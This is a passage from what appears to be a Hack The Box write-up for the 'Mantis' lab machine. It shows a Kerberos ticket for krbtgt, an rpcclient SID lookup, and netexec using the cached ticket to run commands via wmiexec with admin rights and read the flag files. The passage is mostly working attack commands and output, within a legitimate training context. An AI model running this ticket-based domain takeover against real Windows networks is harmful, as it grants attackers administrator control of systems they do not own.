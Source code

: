 ```bash
03/24/2024 09:49:23  03/24/2024 19:49:23  krbtgt/HTB.LOCAL@HTB.LOCAL
        renew until 03/25/2024 09:47:48
# get the user's SID
$ rpcclient -U james 10.10.10.52
Password for [WORKGROUP\james]:
rpcclient $> lookupnames james
james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)
```

<pre class="language-bash"><code class="lang-bash"># assign the ticket file to the KRB5CCNAME variable
<strong>$ export KRB5CCNAME=20240324111538_default_10.10.10.52_mit.kerberos.cca_026940.bin
</strong>
# use the ticket for Kebrberos authentication and grab the user.txt file
$ nxc smb mantis.htb.local --use-kcache -x 'type c:\users\james\desktop\user.txt'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james from ccache (Pwn3d!)
SMB         10.10.10.52     445    MANTIS           [+] Executed command via wmiexec
SMB         10.10.10.52     445    MANTIS           374&#x3C;SNIP>9b6

# do the same for the root.txt file
$ nxc smb mantis.htb.local --use-kcache -x 'type c:\users\administrator\desktop\root.txt'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james from ccache (Pwn3d!)
SMB         10.10.10.52     445    MANTIS           [+] Executed command via wmiexec
SMB         10.10.10.52     445    MANTIS           06e&#x3C;SNIP>7a1
</code></pre>

